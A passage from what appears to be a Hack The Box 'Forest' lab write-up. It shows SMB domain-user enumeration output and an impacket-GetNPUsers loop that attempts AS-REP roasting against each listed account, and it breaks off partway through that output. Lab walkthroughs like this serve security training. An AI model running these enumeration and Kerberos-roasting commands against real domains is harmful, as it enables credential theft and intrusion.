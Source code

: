 ```console
SMB         10.10.10.161    445    FOREST           SM_7c96b981967141ebb          <never>             0
SMB         10.10.10.161    445    FOREST           SM_c75ee099d0a64c91b          <never>             0
SMB         10.10.10.161    445    FOREST           SM_1ffab36a2f5f479cb          <never>             0
SMB         10.10.10.161    445    FOREST           HealthMailboxc3d7722          2019-09-23 22:51:31 0
SMB         10.10.10.161    445    FOREST           HealthMailboxfc9daad          2019-09-23 22:51:35 0
SMB         10.10.10.161    445    FOREST           HealthMailboxc0a90c9          2019-09-19 11:56:35 0
SMB         10.10.10.161    445    FOREST           HealthMailbox670628e          2019-09-19 11:56:45 0
SMB         10.10.10.161    445    FOREST           HealthMailbox968e74d          2019-09-19 11:56:56 0
SMB         10.10.10.161    445    FOREST           HealthMailbox6ded678          2019-09-19 11:57:06 0
SMB         10.10.10.161    445    FOREST           HealthMailbox83d6781          2019-09-19 11:57:17 0
SMB         10.10.10.161    445    FOREST           HealthMailboxfd87238          2019-09-19 11:57:27 0
SMB         10.10.10.161    445    FOREST           HealthMailboxb01ac64          2019-09-19 11:57:37 0
SMB         10.10.10.161    445    FOREST           HealthMailbox7108a4e          2019-09-19 11:57:48 0
SMB         10.10.10.161    445    FOREST           HealthMailbox0659cc1          2019-09-19 11:57:58 0
SMB         10.10.10.161    445    FOREST           sebastien                     2019-09-20 00:29:59 0
SMB         10.10.10.161    445    FOREST           lucinda                       2019-09-20 00:44:13 0
SMB         10.10.10.161    445    FOREST           svc-alfresco                  2024-10-01 16:39:18 0
SMB         10.10.10.161    445    FOREST           andy                          2019-09-22 22:44:16 0
SMB         10.10.10.161    445    FOREST           mark                          2019-09-20 22:57:30 0
SMB         10.10.10.161    445    FOREST           santi                         2019-09-20 23:02:55 0
```

I clean up this user list and put it in `u.txt`.

## Remote Code Execution

```console
$ for i in `cat u.txt`; do impacket-GetNPUsers HTB/$i -dc-ip 10.10.10.161 -request -no-pass ; done
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for $331000-VK4ADACQNUCA
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for Administrator
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for DefaultAccount
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for Guest
```